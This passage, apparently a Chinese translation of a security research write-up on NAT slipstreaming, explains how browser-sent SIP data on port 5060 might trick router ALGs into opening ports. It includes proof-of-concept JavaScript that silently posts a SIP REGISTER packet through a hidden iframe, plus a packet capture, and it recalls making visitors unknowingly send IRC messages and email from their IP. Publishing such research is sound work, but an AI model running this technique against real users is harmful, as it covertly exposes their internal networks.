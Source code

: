 检查我们的[受限浏览器端口](https://github.com/samyk/chromium/blob/2d57e5b8afc6d01b344a8d95d3470d46b35845c5/net/base/port_util.cc#L20-L90)，我们看到默认 SIP 端口 5060 在 Chrome 中不受限制🙂

**尝试 HTTP POST 中的 SIP 数据包**

SIP 使用 TCP/UDP 5060，但是像 RTP(音频)这样的媒体是在动态生成的备用端口上发送的。当发送 SIP 呼叫请求时，您的 SIP 客户端选择一个随机端口，打开它，并将其包含在 SIP 报头中。假设启用了 SIP ALG(默认情况下，大多数路由器都启用了 SIP ALG ),您的 NAT 应该也能看到它并打开它。

假设 NAT 逐行读取 SIP 包(SIP 像 HTTP 一样是基于换行的，不是二进制协议)，也许它会忽略 HTTP 头，一旦到达 POST 数据，读取寄存器并相信它是 SIP 包。这在我们的 IRC DCC 2010 版本中有效。NAT 忽略了 HTTP 头，只解析了 IRC DCC 命令。

有趣的是，这也允许我们实际上让访问我们网站的用户连接到一个合法的 IRC 服务器，加入一个频道，并在他们不知道的情况下从他们的 IP 地址发送消息！😛在端口 25 被浏览器封锁之前，在 SPF 记录普遍存在之前，我演示了用客户端 IP 地址向邮件服务器发送电子邮件的技术…疯狂。

现在，在一个快速测试中，通过 HTTP POST 在端口 5060 上发送 SIP REGISTER 包似乎不起作用…也许我们在包中遗漏了什么。

```
// our sip message
var sipmsg = 'REGISTER sip:samy.pl;transport=TCP SIP/2.0\r\n' +
             'Contact: <sip:samy@192.168.0.109:1234;transport=TCP>\r\n\r\n'

// load form in an iframe so user doesn't see it
var iframe = document.createElement('iframe')
iframe.name = 'iframe'
iframe.style.display = 'none' // hide the iframe

// create form
var form = document.createElement('form')
form.setAttribute('target', 'iframe') // load into iframe
form.setAttribute('method', 'POST') // need the POST area where we can add CRLFs
form.setAttribute('action', 'http://samy.pl:5060') // "http" server on SIP port 5060
form.setAttribute('enctype', 'multipart/form-data') // ensure our data doesn't get encoded

var textarea = document.createElement('textarea')
textarea.setAttribute('name', 'textname') // required
textarea.innerHTML = sipmsg
form.appendChild(textarea)
document.body.appendChild(iframe)
document.body.appendChild(form)
form.submit()
```

如果我们嗅嗅，我们会看到(通过 [`h2b`](https://github.com/samyk/samytools/blob/master/h2b) 解析):

```
$ unbuffer tcpdump -X port 5060 | h2b
POST / HTTP/1.1
Host: samy.pl:5060
Connection: keep-alive
Content-Length: 191
Cache-Control: max-age=0
Origin: http://samy.pl
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhcoAd2iSAx3TJA7A
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://samy.pl/o/sp.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundaryhcoAd2iSAx3TJA7A
Content-Disposition: form-data; name="textname"

REGISTER sip:samy.pl;transport=TCP SIP/2.0
Contact: <sip:samy@192.168.0.109:1234;transport=TCP>

```
